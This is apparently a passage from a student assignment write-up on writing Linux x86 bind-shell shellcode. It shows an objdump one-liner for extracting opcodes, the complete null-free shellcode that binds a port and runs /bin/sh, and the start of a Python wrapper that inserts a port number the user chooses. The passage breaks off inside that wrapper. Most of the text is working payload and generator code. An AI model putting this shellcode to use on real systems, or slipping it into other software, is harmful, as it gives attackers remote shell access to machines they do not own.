 
## Shellcode

To get our shellcode, we can run this nifty command `objdump -d ./<PROGRAM>|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'`

Our shellcode is: 
```terminal_session
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x69\x01\x89\xfb\x31\xc9\x51\x51\x66\x68\x15\xb3\x66\x6a\x02\x89\xe1\xb2\x10\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x31\xff\x89\xc7\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

Looks to be null free!

## Python Wrapper

The next criteria we have to satisfy for the assignment, is to have the bind shell code created dynamically with user input for a port number. I have created a python wrapper to accomplish this. 

```python
#!/usr/bin/python

import socket
import sys

shell1 =  ""
shell1 += "\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01"
shell1 += "\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x69\\x01\\x89\\xfb\\x31\\xc9\\x51\\x51"
shell1 += "\\x66\\x68"
shell2 = ""
shell2 += "\\x66\\x6a\\x02\\x89\\xe1\\xb2\\x10\\xcd\\x80\\x31\\xc0\\x66"
shell2 += "\\xb8\\x6b\\x01\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c\\x01\\x89"
shell2 += "\\xfb\\x31\\xc9\\x31\\xd2\\x31\\xf6\\xcd\\x80\\x31\\xff\\x89\\xc7\\xb1\\x03\\x31"
shell2 += "\\xc0\\xb0\\x3f\\x89\\xfb\\xfe\\xc9\\xcd\\x80\\x75\\xf4\\x31\\xc0\\x50\\x68\\x6e"
shell2 += "\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1"
shell2 += "\\xb0\\x0b\\xcd\\x80"

if len(sys.argv) != 2:
	print 'Usage: wrapper.py <port>'
	exit
else:

	try:

		portNumber = sys.argv[1]
		portNumber = int(portNumber)
		portNumber = socket.htons(portNumber)
		portNumber = hex(portNumber)

		portNum1 = portNumber[2:4]
		portNum2 = portNumber[4:6]

		portNum1 = str(portNum1)
		portNum1 = "\\x" + portNum1

		portNum2 = str(portNum2)
		portNum2 = "\\x" + portNum2

		combined = portNum2 + portNum1

		shell = shell1 + combined + shell2
```